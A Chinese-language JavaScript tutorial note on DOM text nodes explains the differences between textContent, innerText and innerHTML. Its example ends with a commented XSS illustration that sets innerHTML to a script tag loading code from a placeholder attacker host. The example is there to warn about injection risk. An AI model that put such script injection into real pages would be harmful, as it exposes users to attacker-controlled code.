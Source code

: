 
## 04 文本节点

在DOM中，网页中所有的文本内容都是文本节点对象,
可以通过元素来获取其中的文本节点对象，但是我们通常不会这么做



我们可以直接通过元素去修改其中的文本
修改文本的三个属性



element.textContent 获取或修改元素中的文本内容
获取的是标签中的内容，不会考虑css样式



element.innerText 获取或修改元素中的文本内容
innerText获取内容时，会考虑css样式
通过innerText去读取CSS样式，会触发网页的重排（计算CSS样式）
当字符串中有标签时，会自动对标签进行转义
<li> --> &lt;li&gt;



element.innerHTML 获取或修改元素中的html代码
可以直接向元素中添加html代码
innerHTML插入内容时，有被xss注入的风险



```html
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
</head>
<body>
<div id="box1">
    <span style="text-transform: uppercase;">我是box1</span>
</div>

<script>
    const box1 = document.getElementById("box1")
    const text = box1.firstChild
    console.log(text)
    
    box1.innerText = "xxxx"
    console.log(box1.textContent)

    box1.textContent = "新的内容"

    // xss 攻击 , 加载攻击者指定的脚本
    box1.innerHTML = "<、script src='https://xxx.com/abc.js'><\/script>"


</script>
</body>
</html>

```
